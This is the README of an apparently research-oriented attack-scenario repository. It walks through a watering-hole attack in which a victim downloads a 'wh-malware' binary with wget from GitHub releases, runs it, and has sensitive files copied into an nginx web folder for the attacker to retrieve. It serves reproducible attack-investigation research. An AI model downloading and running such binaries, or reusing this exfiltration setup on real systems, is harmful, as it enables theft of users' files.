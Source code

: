 ## Scenario

The victim user tries to download a series of packages for his environment via `wget`. However, one of the source URLs has been compromised by the attacker, in which the original package has been replaced with a malware `mal-package`. 

After execution, `mal-package` copies sensitive files from the victim's original directory to a shared folder, which provides web sources for the shared nginx server on victim's PC.

Finally, the attacker steals those files by connecting and requesting to victim's server.

### Similar scenario

[Rain: Refinable Attack Investigation with On-demand Inter-Process Information Flow Tracking](https://iisp.gatech.edu/sites/default/files/images/rain.pdf)

In their motivating example, the attacker compromised a distribution site of an firefox extension *FireFTP*, the original extension has been replaced with a malicious one.

## Implementation

### sources

Ubuntu 16.04: http://mirror.nus.edu.sg/ubuntu-ISO/16.04/    
nginx 1.4.0: http://nginx.org/download/nginx-1.20.2.tar.gz    
wget 1.20.3: https://ftp.gnu.org/gnu/wget/wget-1.20.3.tar.gz

### Deploy

**Nginx server (Victim IP1)**

* build and install
```
tar xzvf nginx-1.20.2.tar.gz && cd nginx-1.20.2
./configure --prefix=/home/chuqi/local/nginx --error-log-path=PATH=/home/chuqi/log/nginx/error.log
make && make install
```

* configure file

Download the `nginx.conf` file in this github dir.
```
mv nginx.conf /home/chuqi/local/nginx/conf/nginx.conf
```

* web sources

Download the folder `web-source` under this github directory.
```
cp web-source /home/chuqi
```

* deploy
```
help: /home/chuqi/local/nginx/sbin/nginx -h
start: /home/chuqi/local/nginx/sbin/nginx
stop: /home/chuqi/local/nginx/sbin/nginx -s stop
```

**Operations (Victim IP1)**

0. Start nginx server

```
/home/chuqi/local/nginx/sbin/nginx
```

1. Download several packages via wget 
```
wget https://github.com/Icegrave0391/attack-scenarios/releases/download/v0.1-watering-hole/wh-malware https://github.com/Icegrave0391/attack-scenarios/releases/download/v0.1-watering-hole/wh-pkg1 https://github.com/Icegrave0391/attack-scenarios/releases/download/v0.1-watering-hole/wh-pkg2

chmod 777 wh-*
```
2. Execute `wh-malware`

```
./wh-malware
```

**Exploit (Attacker IP2)**    

Access victim's web-server on attacker's browser:
```
IP1:8080/data/xxx
IP1:8080/images/xxx
```


